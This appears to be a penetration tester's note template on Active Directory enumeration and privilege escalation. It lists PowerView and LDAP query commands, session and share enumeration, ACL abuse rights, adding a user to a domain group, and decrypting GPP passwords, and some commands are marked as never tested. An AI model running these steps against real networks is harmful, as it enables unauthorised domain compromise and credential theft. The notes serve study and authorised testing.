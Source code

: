 <% tp.file.rename("2_loot-privEsc_AD_Template")%>

> First, domain controlers should be enumerated as any windows machine. Privilege escalation works the same as well (mostly). Here one can find AD specific enumeration and privilege escalation techniques.

# adPEAS script

# PowerView.ps1

##### Users
```powershell
Get-NetUser | select cn, pwdlastset,lastlogon
````

```powershell
Get-NetGroup | select cn, member
```
	
##### Systems
```powershell
Get-NetComputer | select operatingsystem, operatingsystemversion, dnshostname
```
	
##### Systems the current user has admin privs on
```powershell
Find-LocalAdminAccess
```
	
##### Logged-In users
```powershell
Get-NetSession -ComputerName $host -Verbose
```
(Only works below Windows Server 2019 build 1809 or Windows 10 build 1709)
	
##### AD-integrated services
```powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
	

##### Shares
```powershell
Find-DomainShare
```
	
Use flag `-CheckShareAccess` to only list shares we have access to.

# Manual approach
##### LDAP path of AD
`$LDAP` = `LDAP://$PDC/$DN`
with Primary DC (PDC):
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
```
and DN:
```powershell
([adsi]'').distinguishedName
```

##### Set up `$dirsearcher`
```powershell
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher(New-Object System.DirectoryServices.DirectoryEntry($LDAP))
```
##### Users
```powershell
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()
Foreach($obj in $result){ $obj.Properties | select {$_.name}, {$_.memberof}, {$_.logoncount} }
```
	
(Never tried it. If it does not work, look at page 701 of the manual for the correct command)
Alternative: `net user /domain` (Make sure that the primary DC is used, see above how to get its address)

##### Logged-In users
```powershell
.\PsLoggedon.exe \\$host
```
(SysInternals, requires _Remote Registry service_ on the target which is disabled by default since Windows 8, but enabled on Windows Server 2012 R2, 2016 (1607), 2019 (1809), and Server 2022 (21H2))
##### Groups
```powershell
$dirsearcher.filter="objectclass=group"
$result = $dirsearcher.FindAll()
Foreach($obj in $result){ $obj.Properties | select {$_.cn}, {$_.member} }
```
	
(Never tried it. If it does not work, look at page 701 of the manual for the correct command)
Alternative: `net group /domain`
List of default groups: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups
To get more details on a group: `$dirsearcher.filter="(&(objectCategory=group)(cn=Sales Department)); $dirsearcher.FindAll()"`

##### AD-integrated services
```powershell
setspn -L $user
```

##### ACEs to an object
```powershell
Get-ObjectAcl -Identity $object [ | ? {"GenericAll", "GenericWrite", "WriteOwner", "WriteDACL" -eq $_.ActiveDirectoryRights} ] | Select ActiveDirectoryRights, SecurityIdentifier
```
	
The middle part restricts the search to full-access but can be left out.
Permission descriptions:
	GenericAll: Full permissions on object
	GenericWrite: Edit certain attributes on the object
	WriteOwner: Change ownership of the object
	WriteDACL: Edit ACE's applied to object
	AllExtendedRights: Change password, reset password, etc.
	ForceChangePassword: Password change for object
	Self (Self-Membership): Add ourselves to for example a group
The SecurityIdentifier names the principal that has the listed permission to the queued object. As object, we can use the cleartext name to any AD object, e.g., an user, group or share name.
Make SID human readable: `Convert-SidToName $sid` (PowerView)

##### Add user to group
```powershell
net group $group $user /add /domain
```

##### Decrypt password set through GPP
```bash
gpp-decrypt "$hash"
```
